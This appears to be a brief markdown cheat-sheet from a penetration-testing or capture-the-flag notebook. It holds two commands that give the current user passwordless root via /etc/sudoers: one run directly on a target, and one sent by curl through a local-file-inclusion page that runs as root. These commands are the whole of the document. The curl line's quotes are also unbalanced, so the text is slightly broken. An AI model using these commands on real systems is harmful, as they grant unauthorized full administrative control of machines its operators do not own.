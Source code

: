 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Add user to /etc/sudoers file
```bash - target
echo '$USER ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```

#### curl LFI page ran as root
```bash - kali
curl $TARGET:8080/start_page.php?page=cmd.php --data "cmd=echo '$USER ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```

